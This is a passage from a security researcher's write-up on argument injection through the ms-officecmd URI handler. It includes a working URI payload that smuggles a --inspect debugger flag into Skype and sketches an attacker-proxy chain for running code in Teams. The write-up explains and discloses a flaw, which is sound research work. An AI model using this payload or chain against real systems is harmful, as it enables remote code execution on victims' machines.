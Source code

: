 Crafting a valid payload again required a bit of trickery:

1.  Due to the way that the `filename` parameter is processed when Skype is opened this way, an additional `"` character is required after the fake file name before other parameters can be injected
2.  When specifying the listening interface, the IP address integer format is not accepted, forcing us to include `.` characters. Therefore this time, we bypass the file extension check in `AppBridge.dll` by adding a `/` character at the end of our malicious `filename` payload

 <video src="" control></video>

 ‍Local network exploit showcased by clicking a malicious link inside of a VM and connecting a debugger to the Skype process from the host system

This is the URI used in the video:

```
ms-officecmd:{
   "LocalProviders.LaunchOfficeAppForResult": {
       "details": {
           "appId": 21,
           "name": "irrelevant",
           "discovered": {
               "command": "irrelevant"
           }
       },
       "filename": "a:/b/\" --inspect=\"0.0.0.0:28966\" /"
   }
}

```

Note that for susceptible setups, this attack could also be combined with, for example, [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding), or (the recently improved) [NAT Slipstreaming](https://github.com/samyk/slipstream) techniques to achieve RCE through the browser without the need for local network access.

### Teams code execution via `--inspect` debugger and MITM with SOP bypass

We have not actually confirmed this potential exploit to work, but wanted to share the idea for it regardless, because we found its setup to be kind of fun. Ultimately we never attempted to exploit it, because we achieved full RCE using the method described in the next section before we were ready to resort to a setup as complex as what would be required here.

The idea is to combine the `--host-rules` and `--inspect` switches from the sections above with the `--disable-web-security` Chromium switch, which should allow us to utilize our control of the Chromium Javascript context to connect to the Node.js debugger and execute arbitrary commands:

1.  MS Teams is launched via a malicious website, with the following parameters injected:
    *   `--host-rules="MAP <ms_teams_resources_host> <attacker_host>"`
    *   `--ignore-certificate-errors`
    *   `--inspect=1337`
    *   `--disable-web-security`
2.  During startup, a malicious reverse proxy/web server at `<attacker_host>` modifies legitimate resource files that make up the Teams UI to include a malicious Javascript payload that will be executed in the context of the Chromium browser embedded in Electron
3.  The malicious Javascript inside the Electron Chromium browser requests the Node.js debugger metadata endpoint at `http://127.0.0.1:1337/json/list` to retrieve the `<random_uuid>` required for the debugger connection. The `--disable-web-security` switch should disable the [Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy), making the response visible to the malicious Javascript context
4.  The malicious Javascript inside the Electron Chromium browser connects to the debugging endpoint at `ws://127.0.0.1:1337/<random_uuid>` to take control of the Node.js process and execute an OS command
